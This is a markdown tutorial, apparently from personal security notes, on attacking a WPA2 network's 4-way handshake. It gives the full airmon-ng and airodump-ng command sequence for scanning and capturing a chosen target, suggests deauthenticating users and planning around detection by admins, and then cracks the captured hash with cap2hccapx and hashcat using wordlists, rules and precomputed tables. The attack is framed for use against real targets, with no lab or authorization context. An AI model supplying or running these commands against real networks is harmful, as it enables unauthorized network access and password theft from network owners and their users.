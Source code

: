 ```yaml
---
title: 4-Way Handshake Attack
---
```


## What is this about?
Listening for a specific exchange to get a hash and crack it. Yeah that's it...

### Step 0
Read [this](https://en.wikipedia.org/wiki/IEEE_802.11i-2004) like your life depended on it.

### Check out who's around you
Add a monitoring mode to your wifi interface, which we're gonna call potato-interface
```
airmon-ng start potato-interface
```
Check that you have a new *potato-interfacemon* or just a *mon0* interface by running your usual iwconfig/ipconfig/ip a/... 

If your interface is setup to always be monitoring for whatever reason, you'll just get a *monitor mode already enabled for xxx* and the name won't change

Figure out who your target is by running
```
airodump-ng mon0
```
Which should fill up your terminal with the BSSIDs, channels, ciphers, ..., ESSID of anything in range of your antenna, which should look something like this

```
CH 9 ][ Elapsed: 2 min ][ 2020–07–07 21:00 
BSSID			PWR	Beacons	#Data	#/s	CH	MB	ENC	CIPHER	AUTH	ESSID

00:11:22:33:44:55	-79	...	... 	...	1	...	OPN			French Fries
00:11:22:33:44:55	-78	...	... 	...	2	...	WPA2	CCMP	PSK	Hash Browns
55:44:33:22:11:00	-35	...	... 	...	3	...	WPA2	CCMP	PSK	<length: 0> 
...
```
Up to here you've basically overcomplicated opening your Wi-Fi manager and looking at the available networks... But wait there's more!

### Capturing the 4-way handshake
As I'm sure you've read on the previous Wiki link, a 4-way handshake happens when a user tries to authenticate to an access point. Which means we're going to have to wait for some to connect!
Now lets say we're attacking the *Hash Browns* network, which has the BSSID 00:11:22:33:44:55 and is on the channel 2.

To do that all that needs to be ran is a simple
```
airodump-ng -c 2 --bssid 00:11:22:33:44:55 -w /tmp/potato.cap mon0
```
To start getting the whole package capture process and drop the resulting potato.cap in the local tmp directory.

Now there are two options, you start your stuff, let it run and wait for someone to connect OR you start [deauthing](https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack) people with [mdk4](https://github.com/aircrack-ng/mdk4), aireplay-ng, or whatever tool you pick, but this is 10/10 visible to any network admin when it happens so plan it ahead...

Eventually, anywhere between when you start and stop the previous process, you'll end up with the following message on the top right of your terminal :p
```
CH 9 ][ Elapsed: 2 min ][ 2020–07–07 21:00 ][ WPA handshake: de:ad:be:ef:13:37
```
And that's pretty much it... Now you can either ctrl+c and move to the next step or let it run in the background to get more handshakes, which means more hashes to crack!

### Cracking the password
Yes you can use aircrack-ng to run a basic bruteforce on the .cap file but this is not where we're going... Instead, get [hashcat-utils](https://github.com/hashcat/hashcat-utils) and run a *make*.

Then run the following to convert your .cap file into something you can use hashcat on directly
```
cap2hccapx potato.cap potato.hccapx
```
Finally, run your hashcat on it with whatever settings you want or feel like...
```
hashcat -m 2500 -w 4 -a 3 potato.hccapx mypwnerdictionnary -r mypwnerrules.rule
```
More waiting here, but this wouldn't be fun if the cracking was instant right? 

I mean it's not like you could precompute rainbowtables with coWPAtty's [genpmk](https://github.com/joswr1ght/cowpatty) or [genpmk-mp](https://github.com/michiellemmens/genpmk-mp) for your specific target beforehand since the PSK is basically a HMAC-SHA1 with the SSID as salt... Just like the wiki explains... Right... RIGHT?!